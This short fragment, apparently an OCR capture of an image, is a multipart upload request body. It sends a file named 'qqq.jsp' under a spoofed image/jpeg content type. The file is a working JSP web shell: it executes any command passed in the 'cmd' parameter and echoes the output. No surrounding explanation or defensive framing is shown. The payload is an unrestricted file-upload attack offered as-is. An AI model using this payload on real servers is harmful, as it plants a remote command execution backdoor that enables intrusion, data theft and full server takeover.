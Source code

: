 Content-Disposition: form-data; name="file"; filename="qqq.jsp"

Content-Type: image/jpeg


<%

java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

int a = -1; byte[] b = new byte[2048]; 

while((a=in.read(b))!=-1) out.println(new String(b,0,a)); 

%>

